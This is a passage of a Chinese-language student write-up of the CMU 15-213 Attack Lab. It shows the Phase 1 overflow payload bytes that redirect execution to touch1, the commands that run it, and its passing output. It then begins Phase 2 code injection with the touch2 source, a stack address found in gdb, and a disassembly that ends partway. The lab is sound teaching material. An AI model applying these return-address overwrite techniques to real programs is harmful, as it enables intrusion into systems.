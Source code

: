 ```
ff ff ff ff ff ff ff ff /* %rsp+32~%rsp+39 */
c0 17 40                /* 0x4017c0 */
```
构造好后
```shell
./hex2raw < Phase1 > Phase1-raw 
```
执行
```shell
./ctarget -qi Phase1-raw
```
成功了!
```shell
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF FF C0 17 40
```




## Phase 2
这个问题不仅需要跳转到 `touch2()`函数,还需要修改%rdi寄存器的值传入我的cookie.
```C
void touch2(unsigned val){
	vlevel = 2;
	if(val==cookie){
		printf("Touch2!: You called touch2(0x%.8x)\n", val);
		validate(2);
	}
	else {
		printf("Misfire: You called touch2(0x%.8x)\n", val);
		fail(2);
	}
	exit(0);
}
```
Handout提示我,这个问题需要注入代码.上课视频提到过本次lab没有使用栈随机化,这也是注入代码的前提.经过gdb调试,我发现在执行 `Gets()`函数前%rsp总是等于0x5561dc78,验证了这一点.
![[attachments/Pasted image 20250124224542.png|700]]
来看 `touch2()`函数汇编代码
```
(gdb) disassemble touch2
Dump of assembler code for function touch2:
   0x00000000004017ec <+0>:     sub    $0x8,%rsp
   0x00000000004017f0 <+4>:     mov    %edi,%edx
   0x00000000004017f2 <+6>:     movl   $0x2,0x202ce0(%rip)        # 0x6044dc <vlevel>
   0x00000000004017fc <+16>:    cmp    0x202ce2(%rip),%edi        # 0x6044e4 <cookie>
   0x0000000000401802 <+22>:    jne    0x401824 <touch2+56>
   0x0000000000401804 <+24>:    mov    $0x4030e8,%esi
   0x0000000000401809 <+29>:    mov    $0x1,%edi
   0x000000000040180e <+34>:    mov    $0x0,%eax
   0x0000000000401813 <+39>:    call   0x400df0 <__printf_chk@plt>
   0x0000000000401818 <+44>:    mov    $0x2,%edi
   0x000000000040181d <+49>:    call   0x401c8d <validate>
   0x0000000000401822 <+54>:    jmp    0x401842 <touch2+86>
   0x0000000000401824 <+56>:    mov    $0x403110,%esi
   0x0000000000401829 <+61>:    mov    $0x1,%edi
   0x000000000040182e <+66>:    mov    $0x0,%eax
```